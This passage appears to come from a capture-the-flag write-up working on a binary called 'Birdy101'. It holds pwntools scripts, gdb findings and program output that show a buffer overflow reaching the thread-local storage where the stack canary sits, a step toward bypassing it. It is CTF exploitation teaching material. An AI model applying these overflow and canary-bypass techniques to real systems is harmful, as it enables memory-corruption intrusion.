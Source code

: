 I attached a gdb instance
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")
p = gdb.attach(con, gdbscript="""
c
""")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

# Wait for the read, gdb makes things slow or whatever
time.sleep(1)
con.send(cyclic(0x1000))

con.interactive()
```

using gdb I saw that the crash happesn at the function `__GI__pthread_disable_asynccancel` at offset `18`.
![](Pasted%20image%2020240429193142.png)

I added a breakpoint just before there, and i saw that the `mov rax, QWORD PTR fs:0x10` moves `faaxgaax` into the `rax` register, it looks like we somehow overwrote into the location where `fs` points to! that's amazing because the canary is stored at location `fs:0x28`.
If we could change the canary to whatever we want to, we could bypass it!

We crash on a `SIGSEGV` for location `rax+0x972`. We can control `rax` (`fs:0x10`) so let's just make it point to a writeable location (for eaxmple, `.bss`) 
```bash
$ readelf -S Birdy101 | grep .bss
  [27] .bss              NOBITS           0000000000404080  00003080
```

I changed my payload to be
```python
con.send(cyclic(cyclic_find('faaxgaax')) + p64(elf.bss() - 0x972))
```

and now we get the `*** stack smashing detected ***: terminated` string again!

```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 23947
[!] cyclic_find() expected a 4-byte subsequence, you gave b'faaxgaax'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: *** stack smashing detected ***: terminated
[*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -6 (SIGABRT) (pid 23947)
```